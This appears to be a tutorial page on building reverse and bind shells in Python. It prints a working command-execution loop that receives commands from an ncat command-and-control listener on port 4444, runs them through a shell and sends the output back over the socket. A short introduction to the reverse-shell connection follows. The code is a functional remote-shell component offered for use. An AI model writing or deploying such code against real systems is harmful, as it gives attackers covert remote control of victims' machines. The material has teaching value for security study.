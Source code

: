 

## **Shell Spawner**

This is our main shell spawning function definition for use in reverse shells and bind shells recurrent throughout this tutorial. The socket object is passed into `spawn_shell()`, we then enter into an infinite loop where we listen for commands from the `ncat -l4kvp 4444` command & control server through the recv method. Changing of the directory must be handled programmatically since passing a cd command to a pipe achieves nothing in the current context.



```python
def _spawn(self, sock, ip, port, serve=False):
    # infinitely accept commands
    while True:
        try:
            # await command from the server
            data = str(sock.recv(1024), 'ascii').rstrip()
            if not data: break
        except ConnectionError:
            print(f"{ip}:{port}> left ..." if serve else f"Disconnected from {ip}:{port}")
            break
        
        # change directory if supplied
        try:
            if 'cd ' in data:
                _, path = data.split()
                os.chdir(path)
                continue
        except FileNotFoundError:
            sock.send(f"{path} does not exit".encode())
            continue

        if serve: print(f"{ip}:{port}> {data}")
        # run command from server
        # assign output into proc
        proc = Popen(
            args   = data,
            stdout = PIPE, 
            stderr = STDOUT, 
            shell  = True
        )
        
        # send this data back to the server
        # stdout contains stderr
        sock.send(proc.stdout.read())
```

## **Reverse Shells in Python**

A simple socket object is created and connected before spawning the reverse shell and closing the socket object. The AF_INET constant is passed into the argument to designate the default address family. We also specify the SOCK_STREAM constant. Both of these constants are the default settings for the object so they can be omitted, for clarity we write them out.
